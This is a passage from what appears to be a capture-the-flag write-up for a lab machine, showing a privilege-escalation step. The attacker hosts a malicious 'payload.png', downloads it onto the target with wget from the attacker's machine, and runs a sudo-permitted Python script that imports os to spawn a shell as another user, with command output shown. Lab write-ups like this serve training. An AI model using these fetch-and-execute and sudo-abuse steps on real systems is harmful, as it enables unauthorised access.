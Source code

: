 > Note: Since the `vuln.py` has imported `os` library, we can leverage that to spawn a Bash shell.

**Then, transfer our evil `payload.png`:**
```shell
┌[root♥siunam]-(~/ctf/thm/ctf/Unbaked-Pie)-[2023.01.13|10:16:45]
└> python3 -m http.server 80           
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

ramsey@unbaked:~$ mv payload.png payload.png.bak
ramsey@unbaked:~$ wget http://10.9.0.253/payload.png
```

**After that, execute the payload:**
```shell
ramsey@unbaked:~$ sudo -u oliver /usr/bin/python /home/ramsey/vuln.py

--------- WELCOME! ---------
1. Calculator
2. Easy Calculator
3. Credits
4. Exit
----------------------------
Enter Options >> 2

Waiting to extract...
			         [■■■■■■■■■■]oliver@unbaked:~$ 
oliver@unbaked:~$ whoami;hostname;id;ip a
oliver
unbaked
uid=1002(oliver) gid=1002(oliver) groups=1002(oliver),1003(sysadmin)
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 9001 qdisc pfifo_fast state UP group default qlen 1000
    link/ether 02:9d:2a:2d:05:b3 brd ff:ff:ff:ff:ff:ff
    inet 10.10.49.15/16 brd 10.10.255.255 scope global eth0
       valid_lft forever preferred_lft forever
    inet6 fe80::9d:2aff:fe2d:5b3/64 scope link 
       valid_lft forever preferred_lft forever
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:40:ad:94:49 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:40ff:fead:9449/64 scope link 
       valid_lft forever preferred_lft forever
5: vethce88f61@if4: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue master docker0 state UP group default 
    link/ether ce:10:16:87:86:01 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet6 fe80::cc10:16ff:fe87:8601/64 scope link 
       valid_lft forever preferred_lft forever
oliver@unbaked:~$ 
```

